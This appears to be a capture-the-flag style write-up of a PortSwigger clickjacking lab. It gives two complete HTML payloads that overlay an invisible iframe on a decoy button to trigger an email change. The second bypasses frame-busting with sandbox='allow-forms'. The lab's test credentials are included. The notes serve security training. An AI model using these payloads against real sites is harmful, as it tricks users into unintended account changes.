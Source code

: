 ### Clickjacking with a frame buster script : APPRENTICE

---

###### Solving this lab from Burp's browser.

> Given credentials `wiener:peter`.

> Exactly the same approach as [[Portswigger/Clickjacking/Lab 2|Lab 2]].
> Trying the same payload.

```HTMl
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:450px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0a4b008d04e7411280802b310040007a.web-security-academy.net/my-account?email=newnew@new.com"> </iframe> 
</body>
```

> Putting the payload in the exploit server, storing it, and then viewing it isn't working.
> When i hover over the `click` text the mouse doesn't turn to the pointer, this means that the frame was removed.

> To test this theory, i made the opacity for the target website 1, and then viewed the exploit again and this was the result.

![](./screenshots/lab3-1.png)

> This means there are frame busting scripts.
> To overcome them, we add `sandbox="allow-forms"` to the `iframe` element.

```HTML
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:450px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0a4b008d04e7411280802b310040007a.web-security-academy.net/my-account?email=newnew@new.com" sandbox="allow-forms"> </iframe> 
</body>
```

> Now when we store and view, we see that the mouse pointer shows when we hover over `click`.
> Delivering the exploit to victim completes the lab.

---
